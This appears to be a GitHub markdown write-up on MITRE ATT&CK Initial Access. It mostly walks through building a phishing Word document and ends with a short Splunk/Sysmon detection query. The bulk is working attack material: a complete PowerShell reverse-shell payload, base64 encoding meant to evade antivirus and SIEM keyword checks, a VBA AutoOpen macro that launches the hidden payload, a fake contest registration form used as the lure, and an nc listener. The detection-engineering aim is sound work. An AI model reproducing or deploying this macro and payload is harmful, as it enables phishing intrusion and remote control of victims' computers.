



## Initial Access (TA0001): The Foothold of the Attack

Initial Access in MITRE ATT&CK represents the critical first step attackers take to establish a foothold within a target system or network. This initial breach serves as the foundation for subsequent malicious activities. The primary objective of Initial Access is to gain a foothold within the target system. This foothold can be a compromised user account with valid credentials, a malicious program running on a system, a vulnerability exploited to gain unauthorized access, Control over a device or server. Once established, attackers leverage this initial access for further actions like privilege escalation, lateral movement, and ultimately achieving their ultimate goals (data theft, disruption, etc.)

MITRE ATT&CK details a vast array of techniques attackers use for Initial Access. The common Technique are:
	**Social Engineering:** This leverages human psychology to trick users into compromising security. Phishing emails, malicious attachments, and social media scams are common examples.
	**Exploiting Public-Facing Applications:** Attackers target vulnerabilities in web servers, remote access applications (VPN, RDP), or other internet-facing systems to gain access.
	**Supply Chain Compromise:** Attackers target software suppliers or vendors to inject malware into their products, compromising users who install them.
	**Physical Access Attacks:** Gaining physical access to devices allows attackers to install malware or steal credentials directly.
	**Acquiring Existing Access:** Attackers might purchase access to compromised systems or user credentials on the dark web.

The method we used for initial access is `phishing` where a word document is sent to the victim which carry a macro code that execute a powershell script which open a hidden reverse shell to the attacker. In order for this macro to run the windows defender needed to be deactivated. The deactivation may seems like an unrealistic step to happen in a real environment, but the goal of the current developed detection rule is "detection" whenever an abnormal event happens, like a new vulnerability in windows or any application that will allow the execution of payload to go undetected by the windows defender. 

## Steps to create the malicious document

First you need to chose a payload. The current chosen payload is reverse shell that opens through a powershell terminal to this socket(('192.168.1.4', 4444)). The full payload is
```powershell
$command ='$client = New-Object System.Net.Sockets.TCPClient("192.168.1.5", 4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback +"PS" + (pwd).Path + ">";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

As an extra step the payload will be encoded to trick a trivial antivirus checks or SIEM rules that look for specific keywords. The steps for doing this is:
```powershell
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
Start-Process powershell.exe -ArgumentList "-NoExit", "-EncodedCommand", $encodedCommand -WindowStyle Hidden
```

The goal of the previous commands it to convert the whole command into bytes (as any cryptographic operation requires dealing with the bytes format) and then into base64 format which will looks like this

```bash
IAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAnADEAOQAyAC4AMQA2ADgALgAxAC4ANAAnACwAIAA0ADQANAA0ACkAOwAgAD0AIAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAgAD0AIAAuAFIAZQBhAGQAKAAsACAAMAAsACAALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAsADAALAAgACkAOwAgAD0AIAAoAGkAZQB4ACAAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAoAAgAD0AIAAgACsAIAAnAFAAUwAgACcAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAnAD4AIAAnADsAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAApADsALgBXAHIAaQB0AGUAKAAsADAALAAuAEwAZQBuAGcAdABoACkAOwAuAEYAbAB1AHMAaAAoACkAfQA7AC4AQwBsAG8AcwBlACgAKQA=
```

Finally the `Start-Process powershell.exe -ArgumentList "-NoExit", "-EncodedCommand", $encodedCommand -WindowStyle Hidden` start the reverse shell, the argument `EncodedCommand` indicate that the payload needed to be decoded, and the `-WindowStyle Hidden` is used for creating a powershell terminal that will run in the background and not visible to the user.  

To test and verify that payload you need to open a terminal in listening mode, like this:
```
$ nc -lv 4444
```
`nc` utility is a tool network connection over sockets, the previous command was executed on a WSL. Now the `nc` will listen for any connection coming on port `4444`, I will just modify the IP in the payload to match my machine IP. After the payload is executed the powershell prompt appear on the terminal


Now all we need to do is writing the macro code in the word document, also preparing a scenario for the phishing. For the phishing here is the prepared method for a word doc:

```
**Programming Contest Registration Form**

**Personal Information:**

Name: [Enter your full name]  
Age: [Enter your age]  
Gender: [Select one: Male / Female / Other]

**Contact Information:**

Email Address: [Enter your email address]  
Phone Number: [Enter your phone number]

**Academic Information:**

School/University: [Enter the name of your school/university]  
Grade/Year: [Enter your grade/year of study]

**Programming Experience:**

Have you participated in programming contests before? [Select one: Yes / No]  
If yes, please provide details: [Enter details]

**Programming Languages Proficiency:**

Please rate your proficiency in the following programming languages on a scale of 1 to 5 (1 being beginner, 5 being expert):  
- Python: [Enter rating]  
- Java: [Enter rating]  
- C++: [Enter rating]  
- Other (please specify): [Enter rating]

**Contest Preferences:**

Team Name (if applicable): [Enter your team name]  
Preferred Contest Format: [Select one: Individual / Team]

**Declaration:**

I hereby declare that all the information provided above is true and accurate to the best of my knowledge.

[Signature]: ________________________

[Date]: [Enter date]
```

Now for the macro code, to write a macro code got to `View` > `Macros` > `View Macro` and then create a new macro called `AutoOpen` and another one called `contactme`

The code of `AutoOpen` just try to make sure the function `contactme` will run automatically when the word document is opened the the enable content is done:
```vba
Sub AutoOpen()
    contactme
End Sub
```

And for the `contactme` you will provide the encrypted payload from the previous steps and then invoke that command from the powershell, here is the code

```vba
Sub contactme()
    Dim shellObject As Object
    Set shellObject = CreateObject("WScript.Shell")
    
    ' Split the encoded command into two parts
    Dim encodedCommandPart1 As String
    Dim encodedCommandPart2 As String
    
    encodedCommandPart1 = "JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAyACIALAAgADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAiAFAAUwAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA"
    encodedCommandPart2 = "+ACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
    
    ' Combine the two parts
    Dim encodedCommand As String
    encodedCommand = encodedCommandPart1 & encodedCommandPart2
    
    ' Execute the PowerShell command
    
    shellObject.Run "powershell.exe  -WindowStyle Hidden -EncodedCommand " & encodedCommand

    Set shellObject = Nothing
End Sub

```

I had to divide the encoded command into two parts since a single variable can't hold the whole data.
Now are malicious document is ready and we just need to make sure there is a running `nc` that listen on the correct port of the payload.


## Preparing for the detection

For this we will use `Sysmon` logs which short for System Monitor, is a Windows system service and device driver that logs system activity to the Windows event log. It provides detailed information about process creations, network connections, and changes to file creation time. Sysmon is designed to detect and log activities that can indicate malicious or unauthorized behavior, providing administrators with more comprehensive insights into potential threats on their systems. 

Key features of Sysmon logs typically include:
- **Process Creation**: Logs events whenever a process is created, showing details such as the process image file path, command line, user account, and more.
    
- **Network Connections**: Records network connections made by processes, including details like local and remote IP addresses, ports, and protocol.
    
- **File Creation**: Captures events related to file creation, modification, and deletion, including file names and paths.
    
- **Registry Modifications**: Tracks changes made to the Windows registry, showing the process responsible and the registry path modified.
    
- **Driver Loading**: Logs events related to the loading of kernel drivers, including driver file paths and process information.
    
- **Image Loading**: Records events when DLLs are loaded into processes, providing insights into dynamic link library (DLL) usage.

Installing sysmon require downloading sysmon from windows sysinternals, then opening the `cmd` in the directory of sysmon after extraction and running this command
```
sysmon -accepteula -i <config_file.xml>
```

For our detection rule we will use the **Process Creation** event which has an ID of 1, we will specifically look for process created where the parent is the word process and the child is powershell, something like that



## Constructing the detection rule

Now we have the `Microsoft-Windows-Sysmon%4Operational.evtx` log file we need to focus on the Event Id `1`.  Here is how the initial query will look like (which still need a ton of optimization)

```
source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 Message=*powershell* Message=*WINWORD.EXE*
| eval lines=split(Message, " ")
| eval specific_line=mvindex(lines, 7)  
| table _time EventCode  specific_line
```

and the output will look like



Which will be enough for creating an Alert and looking through it.